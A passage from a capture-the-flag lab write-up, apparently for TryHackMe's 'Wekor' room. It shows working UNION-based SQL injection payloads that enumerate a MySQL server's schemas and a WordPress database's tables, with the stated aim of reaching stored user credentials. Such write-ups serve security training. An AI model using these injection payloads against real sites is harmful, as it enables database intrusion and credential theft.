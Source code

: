 Found it! **It's using MySQL version 5.7.32-0ubuntu0.16.04.1!** 

Armed with this information, we can enumerate the database!

**Enumerate all database names:**
```sql
' UNION ALL SELECT NULL,NULL,schema_name FROM information_schema.schemata-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Wekor/images/a9.png)

- Found database names:
	- coupons
	- wordpress

The `wordpress` database would be the initial foothold attack vector!! Since it'll store users credentials!

**Enumerate database `wordpress` table names:**
```sql
' UNION ALL SELECT NULL,NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='wordpress'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Wekor/images/a10.png)

- Database `wordpress` table names:
	- wp_commentmeta
	- wp_comments
	- wp_links
	- wp_options
	- wp_postmeta
	- wp_posts
	- wp_term_relationships
	- wp_term_taxonomy
	- wp_termmeta
	- wp_terms
	- wp_usermeta
	- wp_users
